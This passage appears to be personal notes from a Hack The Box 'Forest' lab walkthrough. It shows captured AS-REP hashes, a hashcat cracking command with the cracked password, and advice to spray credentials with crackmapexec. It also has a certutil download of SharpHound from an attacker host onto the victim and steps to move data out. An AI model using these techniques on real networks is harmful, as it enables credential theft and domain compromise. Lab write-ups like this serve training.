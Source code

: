 ```bash
[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ef2405d7be0b551ed384e5768b630e8b$666309a98238290f5622d5cdde91cb5e9630b2c26796f3e21f84560d926659538ef34b49e2680adeb73a203d827b437ac8aa70578c40510dfe247f15f7f3b2d55777018cfeedfbc191d39c03ad1c5ff049d2b666c2e892c15be612d92609e9bf3b48c39c2486e878575d3679b776532ff9ac88556cead3e437141e0d47a9e9a9071ee62b717369b8220d7826da2b13abc7ca3a32e3c870129bb16decb8d2e923db40c6dca02f90f44fe4b70fcbff976c5f462ca5f2efd85baaa805005c25db05ce3ec5c9a87d590601e14ea92d1a6f6fdaaf0758ff82c023a1e4fdac922fdccaff85aae8fa20

```

```bash
echo "$krb5asrep$23$svc-alfresco@HTB.LOCAL:02edf62c0a429041c31b90507b72b62b$a175de506e32f9ac50cc5972cca3e794d4417f6e5d16ddbb57cc068d98e3a7a12a4354af9086954ec3e3a3fa98e8a79487f9265459334e7f1c13909c3c40109cc0210997262409052a74ec7c6e42bc912325c0cd9e4fb449136469388532d8f2dd36389e09abab3bddc03641050d0022b5795eab057b4d2d615b54d300986e00bdb4f9747fcf664de615109f69877f38335ea16f77ac75bff14e634790fd7448d60c08f58abca2937767919b698460fbdf6c5376eea9ea49065c77561f18268e02e85d319617265d63c08ba3c010984c59a340c0ecd3884c4b63cdf25ea3e8e06b659c41290f" >> forest.hashes
```

### Cracking the Password Hash
- either copy the file or the hash to ur host, and crack it with hashcat - *significantly* faster on the host since it can utilize the GPU whereas the VM cant
- hashcat mode ![](Pasted%20image%2020230213152959.png)
	- https://hashcat.net/wiki/doku.php?id=example_hashes
- `./hashcat.exe -m 18200 -a 0 .\hashes\forest.hash .\rockyou.txt`
	- -m: Select the mode to be used when cracking - this is determined by the hash type
	- -a: The type of attack to use. 0 is a simple dictionary attack which then uses the supplied wordlist (rockyou.txt). [Attack modes](https://hashcat.net/wiki/#core_attack_modes)
- ![](Pasted%20image%2020230213153328.png)
- The password for `svc-alfresco` is `s3rvice`
	- **Good practice to blast creds out against the network using crackmapexec**
- ![](Pasted%20image%2020230213153858.png)
- ![](Pasted%20image%2020230213154012.png)

# Local privesc
- We now have a reliable connection to the host and can execute code - time to start local enumeration.
- run linpeas and look it over - nothing interesting....
	- move onto AD enumeration

### Active Directory Enumeration
- You will need to stand up [Bloodhound & neo4j](https://github.com/BloodHoundAD/BloodHound) to view active directory in a graph
	- `sudo /usr/bin/neo4j start ` and then `bloodhound` in terminal
- Bloodhound needs an **aggregator** to pull down the active directory layout of the victim - theres a [few ways](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound) to do this, but we'll use [SharpHound](https://github.com/BloodHoundAD/SharpHound)
	- On kali from a directory containing sharphound (preferably all your tools), run `python3 -m http.server 80`
	- On the victim (winrm shell) run `certutil -urlcache -split -f http://KALI_IP/SharpHound.exe`
		- You can pull `wget` to the victim since its easier to type (Ex. `wget KALI_IP/SharpHound.exe`)
	- ![](Pasted%20image%2020230213192611.png)
	- ![](Pasted%20image%2020230213192618.png)
- Running `SharpHound` will result in a `.zip` and `.bin` of which we only **really** need the `.zip`. Theres a few ways to move this like setting up a smb server on kali and transferring the file but this method would be fairly obviously abnormal behavior and stick out in system logs (not that we've been stealthy so far).
	- Instead we will b64 encode the file, `cat` it, and then copy paste it into a kali terminal to a file.
	- `certutil -encode "YOUR_BASE64_TEXT" | base64 -d > forest-ad.zip`
	- **Alternatively** to transfer over SMB....
		- On kali, standup a smb share with `impacket-smbserver shareName sharePath`